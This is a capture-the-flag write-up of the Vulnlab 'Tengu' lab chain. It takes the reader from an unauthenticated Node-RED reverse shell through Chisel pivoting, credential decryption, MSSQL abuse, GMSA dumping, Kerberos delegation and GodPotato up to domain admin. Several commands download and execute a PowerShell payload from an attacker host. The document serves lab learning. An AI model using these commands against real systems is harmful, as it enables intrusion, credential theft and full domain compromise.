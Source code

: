 ```yaml
---
title: VL - Tengu
date: 2024-04-1
categories: [Vulnlab]
tags: [CTF, Windows, Chain, Linux]
pin: true
---
```


## Initial Access
On 10.10.193.119 is a web service running named Node-RED on port 1880 which does not require authentication. We can make a flow which executes a reverse shell on the target system:
```
Inject/Timestamp -> Exec (enter your rev shell in this block) -> debug
```

Save the flow and press the button on the left of the timestamp to execute.

## Internal enumeration
Since almost all ports where closed from the outside we can try to scan from the inside to discover what is running and where. We can start a reverse forward with Chisel:
```
// On target
./chisel_linux client <VPN-IP>:8001 R:1080:socks &
​
// On AttackerBox
chisel server -p 8001 --reverse
```
Since scanning through ProxyChains is a pain in the bum we can transfer a static NMAP over and scan from our first compromised machine which reveals:
```
10.10.193.117:
Not shown: 1146 filtered ports
PORT     STATE SERVICE
53/tcp   open  domain
88/tcp   open  kerberos
135/tcp  open  epmap
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd
593/tcp  open  unknown
636/tcp  open  ldaps
3389/tcp open  ms-wbt-server
​
10.10.193.118:
Not shown: 1153 filtered ports
PORT     STATE SERVICE
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
```

It is pretty save to assume that .117 is the domain controller. There is also a service running on port 631 listening on 127.0.0.1 if we forward this we see that it is.
In nodered_svc home directory is a hidden folder for node-red which has a hash in flows_cred.json.
```
"$": "7f5ab122acc2c24df1250a30<redacted>"
```
After searching around how the red node works and how it handles credentials i stumbled against ​[extract nodered creds](https://blog.hugopoi.net/en/2021/12/28/how-to-decrypt-flows_cred-json-from-nodered-data/).
By following the steps in the blogpost we can decrypt the password used for mssql.
```
{"d237b4c16a396b9e":{"username":"nodered_connector","password":"DreamPuppy<redacted>"}}
```

## MSSQL user
Since we have credentials we can use our proxy to log into the mssql server:
```
proxychains mssqlclient.py nodered_connector:DreamPuppy<redacted>@10.10.193.118 
```
We have low privileges and can not enable xp_cmdshell to execute system commands. We can check if there are any other databases available:
```
SELECT name FROM master.dbo.sysdatabases;
SELECT * FROM Demo.INFORMATION_SCHEMA.TABLEs;
SELECT * FROM Users;
```
These commands reveals a hash for the user:
```
t2_m.winters:af9cfa9b70e5e90984203087e5<redacted>
```
By throwing this into crackstation we get a password back, we can ssh with these credentials into the first machine we got access to:
```
ssh tengu.vl\\t2_m.winters@10.10.193.119
```

We can simply sudo su and become root. With these same credentials we can run Bloodhound to gather more information:
```
proxychaisn bloodhound-python -d tengu.vl -c All -dc dc.tengu.vl -ns tengu.vl -u t2_m.winters -p <Password> --zip
```
The interesting path that bloodhound reveals is:
- The NodeRed machine can read GMSA password
- Allowed to delegate from the GMSA01$ user which we can dump to the SQL server

## SQL Server
Since we are root now we can use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) to dump the hash of the machine account, there are multiple tools doing basically the same but this one was the only one that i found without a pip install requirement.
```
python3 keytabextract.py /etc/krb5.keytab
```
We can then use the NTLM hash to dump the GMSA:
```
proxychains netexec ldap dc.tengu.vl -u 'NODERED$' -H <hash> --gmsa
```
With the hash we can start abusing the delegate to the SQL server , we first have to request a ticket for the MSSQLSvc but the user has to be part of the SQL Admins group:
```
proxychains impacket-getST -dc-ip dc.tengu.vl -spn MSSQLSvc/sql.tengu.vl 'tengu.vl/gMSA01$:@sql.tengu.vl' -hashes :8b038ae130a27269ce19d11a8ab1be89  -impersonate 'T1_M.WINTERS'
```
We can now import the ticket:
```
export KRB5CCNAME=T1_M.WINTERS.ccache
```
And login into the SQL server:
```
proxychains mssqlclient.py -k sql.tengu.vl
```
As SQL Admins we can enable xp_cmdshell and execute our reverse shell due to the length limitation of 128 chars we have to retrieve it remotely:

```
enable_xp_cmdshell
xp_cmdshell echo IEX(New-Object Net.WebClient).DownloadString("http://<VPN>:8000/s.ps1") | powershell -noprofile
```
We now have a shell, when checking the privs of the user:
```
PRIVILEGES INFORMATION ----------------------  Privilege Name                Description                               State    ============================= ========================================= ======== 
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled 
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled  
SeImpersonatePrivilege        Impersonate a client after authentication Enabled  
SeCreateGlobalPrivilege       Create global objects                     Enabled  
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

With these privileges we can use god potato and get a shell as SYSTEM:
```
./god.exe -cmd "powershell.exe -nop -w hidden -ep bypass -c IEX(New-Object Net.WebClient).DownloadString('http://<VPN>:8000/s.ps1');"
```

## Domain Admin
In C:\ there is a directory named admin which has a powershell script running. When we retrieve the owner of the file:
```
Get-Acl Task.ps1 | Select-Object Owner
```
We notice that a domain admin is the owner of it. By enumerating a bit more we can find a scheduled task for this file:
```
Get-ScheduledTask
```
We can now simply change the content of  Task.ps1 and force the task execution:
```
wget http://<VPN>:8000/s.ps1 -o Task.ps1
type Task.ps1
Start-ScheduledTask -TaskName Daily_Checkup
```
Now with a shell back as the DA we can simply log into the DC and get the last flag.